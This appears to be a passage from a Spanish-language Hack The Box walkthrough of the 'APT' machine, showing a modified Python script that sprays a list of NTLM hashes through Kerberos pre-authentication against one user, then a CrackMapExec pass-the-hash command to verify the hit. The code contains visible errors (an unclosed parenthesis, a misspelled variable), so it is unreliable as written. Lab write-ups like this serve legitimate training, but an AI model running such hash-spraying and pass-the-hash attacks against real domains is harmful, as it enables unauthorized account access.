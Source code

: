 ```python
            return data

def _decrypt_rep(data, key, spec, enc_spec, msg_type):
    rep = decode(data, asn1Spec=spec)[0]
    rep_enc = str(rep['enc-part']['cipher'])
    rep_enc = decrypt(key[0], key[1], msg_type, rep_enc)
    rep_enc = decode(rep_enc, asn1Spec=enc_spec)[0]
    
    return rep, rep_enc
    

def passwordspray_tcp(user_realm, user_name, user_key, kdc_a, orgin_key):
    nonce = getrandbits(31)
    current_time = time()
    as_req = build_as_req(user_realm, user_name, user_key, current_time, nonce)
    sock = send_req_tcp(as_req, kdc_a)
    data = recv_rep_tcp(sock)
    i=0
    for c in data:       
        i=i+1
        if(i==18):
            if(ord(c)==0x0b):
                print('[+] Valid Login: %s:%s'%(user_name,orgin_key))

if __name__ == '__main__':
    user_realm = 'htb.local'
    username = 'henry.vinson'
    kdc_a = 'apt'

    f = open("hash", "r")
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    number = 1
    for ntlm in f.readlines():
        ntlm = ntlm.strip('\n')
        p1.status("Probando con el Hash [%s/2000]: %s" % (str(number), ntlm)
        user_key = (RC4_HMAC, ntml.decode('hex'))
        passwordspray_tcp(user_realm, username, user_key, kdc_a, ntlm)

```

Hemos cambiado el **socket.AF_INET** en **socket.AF_INET6** y el main para que podamos leer el fichero de hashes.

Lanzando el script, encontramos un hash valido. Lo verificamos

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H 'e53d87d42adaa3ca32bdb34a876cbffb'
```

> [ ! ] NOTAS: Podriamos hacer ASProasting o Kerberoasting attack pero S4vi nos adelanta que no funcciona y que ademas es complicado con IPV6
